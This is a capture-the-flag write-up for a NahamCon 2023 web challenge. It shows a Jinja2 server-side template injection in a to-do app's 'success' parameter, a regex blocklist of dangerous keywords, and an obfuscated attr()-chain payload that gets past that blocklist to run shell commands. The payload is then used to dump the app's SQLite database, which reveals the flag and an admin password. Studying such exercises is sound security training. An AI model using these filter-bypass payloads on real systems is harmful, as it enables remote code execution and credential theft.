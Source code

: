 >Author: @congon4tor#2334  
>  
>Every Capture the Flag competition has to have an obligatory to-do list application, right???
---------------------------------
Firstly, we are greeted with a sign-in page

![Pasted image 20230616165433.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165433.png)

Typical admin:admin guesses do not work, so after making a new account

![Pasted image 20230616165611.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165611.png)

I created a new task `asdf`, and this is the result. After exploring the POST parameters done during submission, as well as how things are altered when tasks are moved between active and completed, I did not see any interesting pattern. The most notable piece is that trashing my first task leads to `http://challenge.nahamcon.com:32053/delete?id=2`. However, `id=1` appears inaccessible. 

When I turned my attention to the greentext, I noticed in the url we see this as well:
`http://challenge.nahamcon.com:32053/?success=Task%20created`
Editing the success= component will affect what is being displayed in green. After playing for a bit, I noticed that this is actually vulnerable to SSTI:
`http://challenge.nahamcon.com:32053/?success={{7*7}}`

![Pasted image 20230616154856.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616154856.png)

Doing actions such as `curl -v` did not give any insight on the framework being used, but exploring the SSTI a little further gave me the impression that this is likely Jinja2:
`http://challenge.nahamcon.com:32053/?success={{7*'7'}}``

![Pasted image 20230616155028.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616155028.png)

Knowing this, I tried some simple enumerations before I find the true difficulty of this challenge:
`http://challenge.nahamcon.com:32053/?success={{config}}`

![Pasted image 20230616170342.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616170342.png)

```
HACKER DETECTED!!!!  
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

It wasn't obvious to me at first, but the real trouble is that any command containing a dot, or square brackets, is blocked.
After spending a good amount of time looking for ways to bypass the filter, I eventually ran into [this post](https://hackmd.io/@Chivato/HyWsJ31dI). Importantly, the writer manages to create a payload to bypass ".","\_", "[]", and even "|join". 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Our blacklist also includes some functions that were used, which I bypassed by breaking between quotes (popen -> po''pen).

```
http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27id%27)|attr(%27read%27)()}}
```

![Pasted image 20230616171249.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616171249.png)

We have successful code execution!! Now all that remains is to find the flag.

After some enumeration of where the flag might be, I began to think that perhaps there isn't a `flag.txt` file after all. When I check the contents of the cwd:
```bash
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 DB
-rw-r--r--    1 root     root           159 Jun 14 17:53 app.ini
-rwxr-xr-x    1 root     root          6693 Jun 14 17:53 app.py
-rw-r--r--    1 root     root           792 Jun 14 17:53 models.py
-rw-r--r--    1 root     root           138 Jun 14 17:53 requirements.txt
drwxr-xr-x    2 root     root          4096 Jun 14 17:53 templates
```
I notice the DB folder, and I recall that my task id's started at 2. Perhaps the flag is in admin's task list, for id number 1?

Looking inside the DB folder:
```
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
-rw-r--r--    1 uwsgi    uwsgi        16384 Jun 16 20:55 db.sqlite
```

Unfortunately, opening a sqlite file is a bit tricky with the RCE that I am currently using. Moreover, dots are still blacklisted. It is fortunate that this folder only has one file, so we can use wildcard * to select `db.sqlite` without using dot. When I try `cat /usr/src/app/DB/*`:

![Pasted image 20230616172048.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616172048.png)

It seems there are issues when trying to output invalid characters, causing the internal server error. As a last attempt, I decided to try `strings`, which should only output legitimate utf-8 friendly characters. However, it is not guaranteed that the flag could remain intact for this.

Request:
```
view-source:http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27strings%20/usr/src/app/DB/db*%27)|attr(%27read%27)()}}
```

Output:
```bash
tabletasktask
CREATE TABLE task (
	id INTEGER NOT NULL, 
	name VARCHAR(100), 
	completed BOOLEAN, 
	user_id INTEGER, 
	PRIMARY KEY (id), 
	CHECK (completed IN (0, 1)), 
	FOREIGN KEY(user_id) REFERENCES user (id)
tableuseruser
CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(40), 
	password VARCHAR(50), 
	PRIMARY KEY (id), 
	UNIQUE (username)
indexsqlite_autoindex_user_1user
asdfasdf
-adminT2dUL6Z#S9KH%x%i
asdf
	admin
asdf
	flag{7b5b91c60796488148ddf3b227735979}
```

Very foturnately, the flag not only survived but is very readable!
`flag{7b5b91c60796488148ddf3b227735979}`

As a side note, we have the password for `admin` now too, and can log in.
`admin:T2dUL6Z#S9KH%x%i`

![Pasted image 20230616172852.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616172852.png)

- Author : Tien
